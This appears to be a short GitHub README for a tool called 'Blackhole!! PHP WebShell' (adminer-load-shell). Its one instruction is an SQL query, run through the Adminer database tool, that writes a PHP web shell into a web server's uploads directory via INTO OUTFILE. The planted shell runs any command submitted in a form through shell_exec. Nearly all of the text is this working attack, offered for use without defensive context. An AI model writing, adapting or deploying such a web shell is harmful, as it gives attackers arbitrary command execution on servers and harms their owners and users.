 # adminer-load-shell


</h1>
<h4 align="center">Blackhole!! PHP WebShell</h4>

<p align="center">
    <img src="https://img.shields.io/badge/release-Prv8-blue.svg">
    <img src="https://img.shields.io/badge/issues-0-red.svg">
    <img src="https://img.shields.io/badge/php-7-green.svg">
    <img src="https://img.shields.io/badge/php-5-green.svg">
</p>

1. Change the `Query SQL` value
```
SELECT '<?php
if (isset($_POST["submit"])) {
    $cmd = $_POST["cmd"];
    echo "<pre>" . shell_exec($cmd) . "</pre>";
}
?>

<form action="" method="post">
    <input type="text" name="cmd" placeholder="Enter command" size="50" required>
    <input type="submit" name="submit" value="Execute">
</form>' INTO OUTFILE '/var/www/html/web/uploads/cmd.php'
FIELDS TERMINATED BY '' LINES TERMINATED BY '';
```
